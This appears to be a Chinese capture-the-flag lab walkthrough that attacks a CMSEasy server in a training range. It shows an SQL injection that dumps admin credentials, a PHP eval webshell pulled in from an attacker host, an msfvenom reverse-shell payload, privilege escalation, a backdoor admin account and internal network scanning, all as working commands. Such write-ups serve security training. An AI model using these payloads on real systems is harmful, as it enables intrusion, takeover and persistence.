



# lab09

:::info

场景介绍

> ATT\&CK 实战框架 - lab9
>
> - 内网仿真
> - 横向移动
> - 域渗透
> - 多层代理
> - 权限维持

:::

## 入口点

```plaintext
http://172.5.33.6/
```

## CMSEasy SQL 注入

参考 [Awesome-POC/CMS 漏洞 / CmsEasy crossall\_act.php SQL 注入漏洞.md at master・Threekiii/Awesome-POC](https://github.com/Threekiii/Awesome-POC/blob/master/CMS%E6%BC%8F%E6%B4%9E/CmsEasy%20crossall_act.php%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md)

尝试获取

```bash
┌──(randark㉿kali)-[~]
└─$ http get "http://172.5.33.6/?case=crossall&act=execsql&sql=Ud-ZGLMFKBOhqavNJNK5WRCu9igJtYN1rVCO8hMFRM8NIKe6qmhRfWexXUiOqRN4aCe9aUie4Rtw5"
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Connection: Keep-Alive
Content-Type: text/html; charset=utf-8
Date: Thu, 22 May 2025 19:27:33 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Keep-Alive: timeout=5, max=100
Pragma: no-cache
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
Set-Cookie: PHPSESSID=gjh6kbq132tdnsu7fo0n5ua894; path=/
Transfer-Encoding: chunked
X-Powered-By: PHP/5.6.9

{
    "adddatetime": "2021-09-01 00:00:00",
    "address": "admin",
    "adminlang": "cn",
    "adminlangdomain": "",
    "alipaylogin": "",
    "answer": "",
    "avatar": "",
    "buyarchive": "",
    "checked": "1",
    "collect": "2,4,3,46,14,73",
    "couponidnum": "17:0:1",
    "e_mail": "admin@qq.com",
    "expired_time": "0",
    "groupid": "2",
    "headimage": "/html/upload/images/201907/15625455867367.png",
    "integration": "0",
    "intro": "",
    "introducer": "0",
    "isblock": "0",
    "isdelete": "0",
    "menoy": "100.07",
    "nickname": "管理员",
    "notifiid": "",
    "password": "a66abb5684c45962d887564f08346e8d",
    "point": "0",
    "qq": "1111",
    "qqlogin": "",
    "question": "",
    "regtime": "0",
    "sex": "",
    "state": "0",
    "tel": "admin",
    "templatelang": "cn",
    "templatelangdomain": "",
    "userid": "1",
    "userip": "",
    "username": "admin",
    "wechatlogin": ""
}
```

查询数据库可知管理员密码



```plaintext
admin:admin123456 
```

即可成功登陆后台 `http://172.5.33.6/admin`


## CMSEasy 文件上传

参考 [Awesome-POC/CMS漏洞/CmsEasy update_admin.php 后台任意文件上传漏洞.md at master · Threekiii/Awesome-POC](https://github.com/Threekiii/Awesome-POC/blob/master/CMS%E6%BC%8F%E6%B4%9E/CmsEasy%20update_admin.php%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md)

准备好载荷

```bash
┌──(randark㉿kali)-[~]
└─$ cat shell.php 
<?php @eval($_REQUEST['shell']) ?>

┌──(randark㉿kali)-[~]
└─$ zip shell.zip shell.php 
  adding: shell.php (stored 0%)
```

然后生成poc数据，其中`lockString`函数源码位于[Awesome-POC/CMS漏洞/CmsEasy crossall_act.php SQL注入漏洞.md at master · Threekiii/Awesome-POC](https://github.com/Threekiii/Awesome-POC/blob/master/CMS%E6%BC%8F%E6%B4%9E/CmsEasy%20crossall_act.php%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md?plain=1#L61)

```bash
┌──(randark㉿kali)-[~]
└─$ php -a
Interactive shell

php > function lockString($txt,$key='cmseasy_sql')
php > {
php {     $chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-=+";
php {     $nh = rand(0,64);
php {     $ch = $chars[$nh];
php {     $mdKey = md5($key.$ch);
php {     $mdKey = substr($mdKey,$nh%8, $nh%8+8);
php {     $txt = base64_encode($txt);
php {     $tmp = '';
php {     $i=0;$j=0;$k = 0;
php {     for ($i=0; $i<strlen($txt); $i++) {
php {         $k = $k == strlen($mdKey) ? 0 : $k;
php {         $j = ($nh+strpos($chars,$txt[$i])+ord($mdKey[$k++]))%64;
php {         $tmp .= $chars[$j];
php {     }
php {     return urlencode($ch.$tmp);
php { }

php > echo lockString('http://172.16.233.2/shell.zip','cmseasy_url');
YWWK%3DYRysHC9CIwCuJxx9IBWrIx2-WUfpXRyFWlK8
```

然后触发下载

```plaintext
http://172.5.33.6/index.php?case=update&act=downfile&admin_dir=admin&site=default&url=YWWK%3DYRysHC9CIwCuJxx9IBWrIx2-WUfpXRyFWlK8
```

成功上传webshell



## FLAG - 1

```plaintext
C:/flag.txt
```



## 入口点 上线msf

生成一个载荷上去

```bash
┌──(randark㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.233.2 LPORT=8888 -f exe -o exp-172.16.233.2-8888.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: exp-172.16.233.2-8888.exe
```

上传到靶机并执行

```bash
┌──(randark㉿kali)-[~]
└─$ msfconsole -q
[*] Starting persistent handler(s)...
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lport 8888
lport => 8888
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > exploit 
[*] Started reverse TCP handler on 0.0.0.0:8888 
[*] Sending stage (203846 bytes) to 172.5.33.6
[*] Meterpreter session 1 opened (172.16.233.2:8888 -> 172.5.33.6:49682) at 2025-05-23 11:57:00 +0800

meterpreter > sysinfo 
Computer        : WIN-784BAKDI0AC
OS              : Windows Server 2016 (10.0 Build 14393).
Architecture    : x64
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
meterpreter > getuid 
Server username: NT AUTHORITY\NETWORK SERVICE
```

## msf无脑提权

直接无脑`getsystem`

```bash
meterpreter > getsystem 
...got system via technique 4 (Named Pipe Impersonation (RPCSS variant)).
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## 权限维持

简单添加一个管理员用户

```bash
C:\Users\Administrator\Desktop>net user randark qazpllm123# /add
net user randark qazpllm123# /add
The command completed successfully.


C:\Users\Administrator\Desktop>net localgroup administrators randark /add
net localgroup administrators randark /add
The command completed successfully.
```

## 内网信息搜集

```bash
C:\Users\Administrator\Desktop>.\fscan.exe -h 10.6.6.0/24
.\fscan.exe -h 10.6.6.0/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
(icmp) Target 10.6.6.10       is alive
(icmp) Target 10.6.6.55       is alive
(icmp) Target 10.6.6.88       is alive
[*] Icmp alive hosts len is: 3
10.6.6.55:88 open
10.6.6.10:3306 open
10.6.6.88:445 open
10.6.6.55:445 open
10.6.6.10:445 open
10.6.6.88:139 open
10.6.6.55:139 open
10.6.6.10:139 open
10.6.6.88:135 open
10.6.6.55:135 open
10.6.6.10:135 open
10.6.6.55:80 open
10.6.6.10:80 open
[*] alive ports len is: 13
start vulscan
[*] NetInfo 
[*]10.6.6.55
   [->]DC
   [->]10.6.6.55
[*] NetInfo 
[*]10.6.6.10
   [->]WIN-784BAKDI0AC
   [->]172.5.33.6
   [->]10.6.6.10
[*] NetBios 10.6.6.88       cyberweb.cyberstrikelab.com         Windows Server 2016 Standard 14393
[*] NetInfo 
[*]10.6.6.88
   [->]cyberweb
   [->]10.6.6.88
[*] OsInfo 10.6.6.88    (Windows Server 2016 Standard 14393)
[*] OsInfo 10.6.6.55    (Windows Server 2016 Standard 14393)
[*] WebTitle http://10.6.6.10          code:200 len:77272  title:中文网页标题
[*] WebTitle http://10.6.6.55          code:200 len:703    title:IIS Windows Server
[+] PocScan http://10.6.6.55 poc-yaml-active-directory-certsrv-detect 
```
